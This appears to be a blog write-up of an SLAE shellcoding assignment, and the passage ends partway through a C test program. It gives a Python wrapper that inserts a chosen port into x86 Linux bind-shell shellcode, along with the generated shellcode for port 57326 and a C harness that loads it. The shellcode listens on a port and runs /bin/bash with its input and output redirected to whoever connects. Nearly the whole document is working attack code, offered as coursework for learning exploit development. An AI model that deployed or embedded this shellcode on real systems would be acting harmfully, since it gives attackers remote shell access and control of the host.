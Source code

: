 As stated in the introduction, one additional detail given in the assignment is to create a wrapper (in any language) that easily configures the port for the bind shell.

Wrapper code:

```term
import socket, sys, struct

if len(sys.argv) != 2:

      print "[*] Example: /usr/bin/python wrapper.py <port>"
      sys.exit(1)

port = sys.argv[1]
port = int(port)
port = socket.htons(port)
hexport = hex(port)
hexport = struct.pack("<H", port).encode("hex")

final_port = "\\x"+"\\x".join(a+b for a,b in zip(hexport[::2],hexport[1::2]))

buf = ("\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x31\\xf6\\x66\\x68\\x67\\x01\\x66\\x58\\xb3\\x02\\xb1\\x01\\x52\\xcd\\x80\\x89\\xc6\\x66\\x68\\x69\\x01\\x66"
"\\x58\\x89\\xf3\\x52\\x52\\x66\\x68"
+ final_port +
"\\x66\\x6a\\x02\\x89\\xe1\\xb2"
"\\x10\\xcd\\x80\\x66\\x68\\x6b\\x01\\x66\\x58\\x89\\xf3\\x31\\xc9\\x51\\xcd"
"\\x80\\x66\\x68\\x6c\\x01\\x66\\x58\\x89\\xf3\\x31\\xc9\\x31\\xd2\\x31\\xf6"
"\\xcd\\x80\\x89\\xc6\\xb1\\x03\\x66\\x6a\\x3f\\x66\\x58\\x89\\xf3\\xfe\\xc9"
"\\xcd\\x80\\x75\\xf3\\x31\\xc0\\x50\\x68\\x62\\x61\\x73\\x68\\x68\\x62\\x69"
"\\x6e\\x2f\\x68\\x2f\\x2f\\x2f\\x2f\\x89\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1"
"\\x66\\x6a\\x0b\\x66\\x58\\xcd\\x80")

print '"' + (buf) + '"'
```

###### Executing the wrapper:

```term
whitecr0wz@SLAE:~/assembly/assignments/assignment_1$ python wrapper.py 57326 
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\x68\x67\x01\x66\x58\xb3\x02\xb1\x01\x52\xcd\x80\x89\xc6\x66\x68\x69\x01\x66\x58\x89\xf3\x52\x52\x66\x68\xdf\xee\x66\x6a\x02\x89\xe1
\xb2\x10\xcd\x80\x66\x68\x6b\x01\x66\x58\x89\xf3\x31\xc9\x51\xcd\x80\x66\x68\x6c\x01\x66\x58\x89\xf3\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x89\xc6\xb1\x03\x66\x6a\x3f\x66\x58\x89\xf3\
xfe\xc9\xcd\x80\x75\xf3\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\x66\x6a\x0b\x66\x58\xcd\x80"
whitecr0wz@SLAE:~/assembly/assignments/assignment_1$
```

Let's test this on a C file to make sure that the shellcode could work on a real environment:

```term
cat bind.c 
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\x68\x67\x01\x66\x58\xb3\x02\xb1\x01\x52\xcd\x80\x89\xc6\x66\x68\x69\x01\x66\x58\x89\xf3\x52\x52\x66\x68\xdf\xee\x66\x6a\x02\x89\xe1
\xb2\x10\xcd\x80\x66\x68\x6b\x01\x66\x58\x89\xf3\x31\xc9\x51\xcd\x80\x66\x68\x6c\x01\x66\x58\x89\xf3\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x89\xc6\xb1\x03\x66\x6a\x3f\x66\x58\x89\xf3\
xfe\xc9\xcd\x80\x75\xf3\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\x66\x6a\x0b\x66\x58\xcd\x80"
;

main()
{
```